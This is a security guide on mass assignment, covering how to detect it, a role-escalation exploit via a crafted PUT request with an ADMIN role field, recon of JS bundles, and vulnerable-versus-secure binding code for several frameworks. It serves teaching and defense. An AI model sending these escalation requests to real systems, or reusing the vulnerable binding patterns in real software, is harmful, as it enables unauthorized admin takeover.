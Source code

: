 # Mass Assignment (CWE-915) – Privilege Escalation via Unsafe Model Binding

Mass assignment (a.k.a. insecure object binding) happens when an API/controller takes user-supplied JSON and directly binds it to a server-side model/entity without an explicit allow-list of fields. If privileged properties like roles, isAdmin, status, or ownership fields are bindable, any authenticated user can escalate privileges or tamper with protected state.

This is a Broken Access Control issue (OWASP A01:2021) that often enables vertical privilege escalation by setting roles=ADMIN or similar. It commonly affects frameworks that support automatic binding of request bodies to data models (Rails, Laravel/Eloquent, Django ORM, Spring/Jackson, Express/Mongoose, Sequelize, Go structs, etc.).

## 1) Finding Mass Assignment

Look for self-service endpoints that update your own profile or similar resources:
- PUT/PATCH /api/users/{id}
- PATCH /me, PUT /profile
- PUT /api/orders/{id}

Heuristics indicating mass assignment:
- The response echoes server-managed fields (e.g., roles, status, isAdmin, permissions) even when you didn’t send them.
- Client bundles contain role names/IDs or other privileged attribute names used throughout the app (admin, staff, moderator, internal flags), hinting bindable schema.
- Backend serializers accept unknown fields without rejecting them.

Quick test flow:
1) Perform a normal update with only safe fields and observe the full JSON response structure (this leaks the schema).
2) Repeat the update including a crafted privileged field in the body. If the response persists the change, you likely have mass assignment.

Example baseline update revealing schema:
```http
PUT /api/users/12934 HTTP/1.1
Host: target.example
Content-Type: application/json

{
  "id": 12934,
  "email": "user@example.com",
  "firstName": "Sam",
  "lastName": "Curry"
}
```
Response hints at privileged fields:
```http
HTTP/1.1 200 OK
Content-Type: application/json

{
  "id": 12934,
  "email": "user@example.com",
  "firstName": "Sam",
  "lastName": "Curry",
  "roles": null,
  "status": "ACTIVATED",
  "filters": []
}
```

## 2) Exploitation – Role Escalation via Mass Assignment

Once you know the bindable shape, include the privileged property in the same request.

Example: set roles to ADMIN on your own user resource:
```http
PUT /api/users/12934 HTTP/1.1
Host: target.example
Content-Type: application/json

{
  "id": 12934,
  "email": "user@example.com",
  "firstName": "Sam",
  "lastName": "Curry",
  "roles": [
    { "id": 1, "description": "ADMIN role", "name": "ADMIN" }
  ]
}
```
If the response persists the role change, re-authenticate or refresh tokens/claims so the app issues an admin-context session and shows privileged UI/endpoints.

Notes
- Role identifiers and shapes are frequently enumerated from the client JS bundle or API docs. Search for strings like "roles", "ADMIN", "STAFF", or numeric role IDs.
- If tokens contain claims (e.g., JWT roles), a logout/login or token refresh is usually required to realize the new privileges.

## 3) Client Bundle Recon for Schema and Role IDs

- Inspect minified JS bundles for role strings and model names; source maps may reveal DTO shapes.
- Look for arrays/maps of roles, permissions, or feature flags. Build payloads matching the exact property names and nesting.
- Typical indicators: role name constants, dropdown option lists, validation schemas.

Handy greps against a downloaded bundle:
```bash
strings app.*.js | grep -iE "role|admin|isAdmin|permission|status" | sort -u
```

## 4) Framework Pitfalls and Secure Patterns

The vulnerability arises when frameworks bind req.body directly onto persistent entities. Below are common mistakes and minimal, secure patterns.

**Node.js (Express + Mongoose)**

Vulnerable:
```js
// Any field in req.body (including roles/isAdmin) is persisted
app.put('/api/users/:id', async (req, res) => {
  const user = await User.findByIdAndUpdate(req.params.id, req.body, { new: true });
  res.json(user);
});
```
Fix:
```js
// Strict allow-list and explicit authZ for role-changing
app.put('/api/users/:id', async (req, res) => {
  const allowed = (({ firstName, lastName, nickName }) => ({ firstName, lastName, nickName }))(req.body);
  const user = await User.findOneAndUpdate({ _id: req.params.id, owner: req.user.id }, allowed, { new: true });
  res.json(user);
});
// Implement a separate admin-only endpoint for role updates with server-side RBAC checks.
```

**Ruby on Rails**

Vulnerable (no strong parameters):
```rb
def update
  @user.update(params[:user]) # roles/is_admin can be set by client
end
```
Fix (strong params + no privileged fields):
```rb
def user_params
  params.require(:user).permit(:first_name, :last_name, :nick_name)
end
```

**Laravel (Eloquent)**

Vulnerable:
```php
protected $guarded = []; // Everything mass-assignable (bad)
```
Fix:
```php
protected $fillable = ['first_name','last_name','nick_name']; // No roles/is_admin
```

**Spring Boot (Jackson)**

Vulnerable pattern:
```java
// Directly binding to entity and persisting it
public User update(@PathVariable Long id, @RequestBody User u) { return repo.save(u); }
```
Fix: Map to a DTO with only allowed fields and enforce authorization:
```java
record UserUpdateDTO(String firstName, String lastName, String nickName) {}
```
Then copy allowed fields from DTO to the entity server-side, and handle role changes only in admin-only handlers after RBAC checks. Use @JsonIgnore on privileged fields if necessary and reject unknown properties.

Go (encoding/json)
- Ensure privileged fields use json:"-" and validate with a DTO struct that includes only allowed fields.
- Consider decoder.DisallowUnknownFields() and post-bind validation of invariants (roles cannot change in self-service routes).

## References

- [FIA Driver Categorisation: Admin Takeover via Mass Assignment of roles (Full PoC)](https://ian.sh/fia)
- [OWASP Top 10 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes](https://cwe.mitre.org/data/definitions/915.html)


